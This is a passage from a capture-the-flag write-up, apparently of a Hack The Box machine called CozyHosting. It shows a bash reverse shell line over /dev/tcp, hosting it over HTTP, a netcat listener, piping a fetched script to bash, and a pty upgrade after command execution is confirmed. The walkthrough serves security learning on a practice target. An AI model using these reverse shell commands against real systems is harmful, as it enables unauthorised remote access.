 And this time we've done it! The page hangs for about 5 seconds, confirming we have command execution! I write a bash reverse shell,  host it on my box, and start a netcat listener. I then `curl` the reverse shell from the command execution and pipe it to bash.
```bash
# Write rev shell and host it
echo 'bash -i >& /dev/tcp/<MY IP>/9001 0>&1' > shell.sh
python3 -m http.server 80

# In a new terminal start a netcat listener
nc -lvnp 9001
```

![revshell](Wed-29-2023_01-04.png)

And sure enough, I catch a revshell on my netcat listener! I then use the [python pty trick](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#spawn-tty-shell) to upgrade my shell
```bash
app@cozyhosting:/app$ python3 -c 'import pty;pty.spawn("bash")'
python3 -c 'import pty;pty.spawn("bash")'
app@cozyhosting:/app$ ^Z
zsh: suspended  nc -lvnp 9001
                                                                                                                               
┌──(kali㉿Kali)──[1:11:20]──[~/htb/Machines/CozyHosting/www]
└─$ stty -a                                  
speed 38400 baud; rows 69; columns 127; line = 0;
<...SNIP...>
                                                                                                                               
┌──(kali㉿Kali)──[1:11:23]──[~/htb/Machines/CozyHosting/www]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 9001

app@cozyhosting:/app$ stty rows 68 columns 127 && export TERM=xterm
```
### Shell as Josh